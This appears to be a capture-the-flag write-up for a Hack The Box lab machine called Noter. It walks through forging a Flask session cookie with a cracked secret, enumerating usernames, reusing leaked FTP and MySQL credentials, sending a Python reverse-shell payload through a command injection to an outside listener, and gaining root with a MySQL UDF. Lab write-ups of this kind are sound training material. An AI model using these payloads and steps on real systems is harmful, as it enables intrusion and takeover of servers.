


> Author: **[kavigihan][author-profile]**

## Discovery

### Port scanning

```shell
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c6:53:c6:2a:e9:28:90:50:4d:0c:8d:64:88:e0:08:4d (RSA)
|   256 5f:12:58:5f:49:7d:f3:6c:bd:9b:25:49:ba:09:cc:43 (ECDSA)
|_  256 f1:6b:00:16:f7:88:ab:00:ce:96:af:a6:7e:b5:a8:39 (ED25519)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Noter
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Directories

```shell
/login                (Status: 200) [Size: 1963]
/register             (Status: 200) [Size: 2642]
/logout               (Status: 302) [Size: 218] [--> http://10.10.11.160:5000/login]
/dashboard            (Status: 302) [Size: 218] [--> http://10.10.11.160:5000/login]
/notes                (Status: 302) [Size: 218] [--> http://10.10.11.160:5000/login]
/VIP                  (Status: 302) [Size: 218] [--> http://10.10.11.160:5000/login]
````

### Web browsing

After registering, the web app lands on a dashboard:



XSS doesn't seem to work, but there's and intriguing session cookie:

```
eyJfZmxhc2hlcyI6W3siIHQiOlsic3VjY2VzcyIsIm5vdGUgVXBkYXRlZCJdfV0sImxvZ2dlZF9pbiI6dHJ1ZSwidXNlcm5hbWUiOiJhcGVoZXgifQ.YoZYNA.R84EdAvQlWtep73ABT3rrX_cIoI
```

It is a JWT token with header:

```json
{
  "_flashes": [
    {
      " t": [
        "success",
        "note Updated"
      ]
    }
  ],
  "logged_in": true,
  "username": "apehex",
  "alg": "HS256"
}
```

## Impersonating the staff

### Cracking the JWT

Since the server is Werkzeug and the port 5000, the application is most likely
made with Flask.

Also the signature is valid with the `HS256` algorithm.

Hacktricks points toward [Flask-Unsign][hacktricks]:

```shell
flask-unsign --unsign --no-literal-eval \
    --wordlist /usr/share/wordlists/passwords/rockyou-75.txt \
    --cookie 'eyJfZmxhc2hlcyI6W3siIHQiOlsic3VjY2VzcyIsIm5vdGUgVXBkYXRlZCJdfV0sImxvZ2dlZF9pbiI6dHJ1ZSwidXNlcm5hbWUiOiJhcGVoZXgifQ.YoZYNA.R84EdAvQlWtep73ABT3rrX_cIoI'
```

The JWT was signed with `secret123`!

### Finding a target user

To impersonate a user with the JWT, we need a valid username.

The login page responds with "Invalid credentials" when a user doesn't exist
and "Invalid login" when the username exist and the password is wrong:

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    --data-binary $'username=test&password=pass' \
    $'http://10.10.11.160:5000/login' | grep -ai invalid
```

This distinction enables user enumeration:

```shell
ffuf -X $'POST' -u $'http://10.10.11.160:5000/login' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -d $'username=FUZZ&password=pass' \
    -w $'/usr/share/wordlists/usernames/cirt-default-usernames.txt' \
    -fr $'valid credentials' \
    -o $'discovery/10.10.11.160/usernames'
```

Only "blue" comes out.

### Crafting a new JWT

We can now create valid tokens with arbitrary content with:

```shell
flask-unsign --sign --cookie '{"logged_in":true,"username":"blue"}' --secret 'secret123'
```

Actually the CLI is escaping some characters, making the format invalid. So
I used the module directly in Python:

```python
from flask_unsign import session

KEY = 'secret123'
COOKIE = {"logged_in":True,"username":"blue"}

__jwt = session.sign(
    value=COOKIE,
    secret=KEY,
    legacy=False)
```

The private notes of user "blue" have sensitive information:



## Pivoting

So far, we've gathered the following credentials:

```
blue blue@Noter!
ftp_admin
```

Let's try these on the FRP server:

```shell
ls -lah
# drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
# -rw-r--r--    1 1002     1002        12569 Dec 24 20:59 policy.pdf
```

`policy.pdf` explains the password policy, in particular default passwords:

```
4. Default user-password generated by the application is in the format of "username@site_name!" (This applies to all your applications)
```

For "ftp_admin" it would be `ftp_admin@Noter!`... it works on the FTP server:

```shell
ls -lah
# -rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
# -rw-r--r--    1 1003     1003        26298 Dec 01 05:52 app_backup_1638395546.zip
```

## Analysing the app

The backups are separated by a month:

```shell
date -d @1635803546
# Mon Nov  1 10:52:26 PM CET 2021
date -d @1638395546
# Wed Dec  1 10:52:26 PM CET 2021
```

### Processing the changelog

To view the differences easily, let's create a new Git repository and
commit the files:

```shell
REPO=$(mktemp -d) && git init "${REPO}"
unzip -d "${REPO}/1635803546" app_backup_1635803546.zip
unzip -d "${REPO}/1638395546" app_backup_1638395546.zip
mv "${REPO}/.git/" "${REPO}/1635803546/" && cd "${REPO}/1635803546/" && git add . && git commit -m 'Older'
mv "${REPO}/1635803546/.git/" "${REPO}/1638395546/" && cd "${REPO}/1638395546/" && git add . && git commit -m 'Newer'
```

Seeing the differences is now ezclap:

```shell
git diff HEAD~ HEAD
# --- a/app.py
# +++ b/app.py
# @@ -14,11 +14,13 @@ app = Flask(__name__)
 
#  # Config MySQL
#  app.config['MYSQL_HOST'] = 'localhost'
# -app.config['MYSQL_USER'] = 'root'
# -app.config['MYSQL_PASSWORD'] = 'Nildogg36'
# +app.config['MYSQL_USER'] = 'DB_user'
# +app.config['MYSQL_PASSWORD'] = 'DB_password'
#  app.config['MYSQL_DB'] = 'app'
#  app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
 
# +attachment_dir = 'misc/attachments/'
# +
#  # init MYSQL
#  mysql = MySQL(app)
```

The known credentials are now:

```
blue blue@Noter!
ftp_admin ftp_admin@Noter!
root Nildogg36
```

Also the latest patch has some serious vulnerabilities!

In `@app.route('/export_note_remote', methods=['POST'])`:

```python
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")
```

And in `@app.route('/export_note_local/<string:id>', methods=['GET'])`:

```python
            command = f"node misc/md-to-pdf.js  $'{note['body']}' {rand_int}"
            subprocess.run(command, shell=True, executable="/bin/bash")
```

### Command injection

The first vector allows a straightforward command injection in `r.text`,
which is filled when the server requests a given "url":

```python
r = pyrequest.get(url,allow_redirects=True)
```

And this is triggered by a POST to `/export_note_remote` with the relevant
parameters:

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yodfow.HyndDkV2OQAk7qMO2ZtJ5O2hMoI' \
    --data-binary $'url=http%3A%2F%2F10.10.16.2%3A8888%2Fnote.md' \
    $'http://10.10.11.160:5000/export_note_remote'
```

And a reverse shell in `note.md`:

```
a';python3 -c 'a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("10.10.16.2",9999));f=s.fileno;c(["/bin/bash","-i"],stdin=f(),stdout=f(),stderr=f())';#
```

### SQLi

There's potential for SQLi too:

```python
result = cur.execute("SELECT * FROM notes where author= %s",[session['username']])
```

According to the `/dashboard` page, this table has at least the fields "title",
"author" and "date". 4 fields with the "id", which can be tested with a union
query injection:

```sql
apehex%20UNION%20SELECT%20null,null,null,null,null--%20-
```

But I couldn't manage to create a JWT for this username...

## Defining a new user function in MySQL

I still haven't leveraged the root access on MySQL. Searching for related
vulnerabilities, I learned about [MySQL UDF][mysql-udf].

First, let's compile the [Raptor payload][raptor-udf2]:

```shell
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Reset between attempts:

```shell
mysql -u'root' -p'Nildogg36' \
    -e'use mysql;drop table foo;'
```

Find where the plugin directory, where the payload should be dropped:

```shell
mysql -u'root' -p'Nildogg36' \
    -e'use mysql;show variables like "%plugin%";'
# +-----------------+---------------------------------------------+
# | Variable_name   | Value                                       |
# +-----------------+---------------------------------------------+
# | plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
# | plugin_maturity | gamma                                       |
# +-----------------+---------------------------------------------+
```

Then create a UDF `do_system`:

```shell
mysql -u'root' -p'Nildogg36' \
    -e'use mysql;create table foo(line blob);' \
    -e'insert into foo values(load_file("/home/svc/raptor_udf2.so"));' \
    -e'select * from foo into dumpfile "/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so";' \
    -e'create function do_system returns integer soname "raptor_udf2.so";' \
    -e'select * from mysql.func;'
# +-----------+-----+----------------+----------+
# | name      | ret | dl             | type     |
# +-----------+-----+----------------+----------+
# | do_system |   2 | raptor_udf2.so | function |
# +-----------+-----+----------------+----------+
```

And use it:

```shell
mysql -u'root' -p'Nildogg36' \
    -e'select do_system("cat /root/root.txt > /tmp/flag.txt; chown svc:svc /tmp/flag.txt");'
cat /tmp/flag.txt
# 713679aa17b79d7e610ac9e8791989ad
```

[author-profile]: https://app.hackthebox.com/users/389926
[dashboard]: images/dashboard.png
[hacktricks]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask#flask-unsign
[leak]: images/leak.png
[mysql-udf]: https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
[raptor-udf2]: https://www.exploit-db.com/exploits/1518

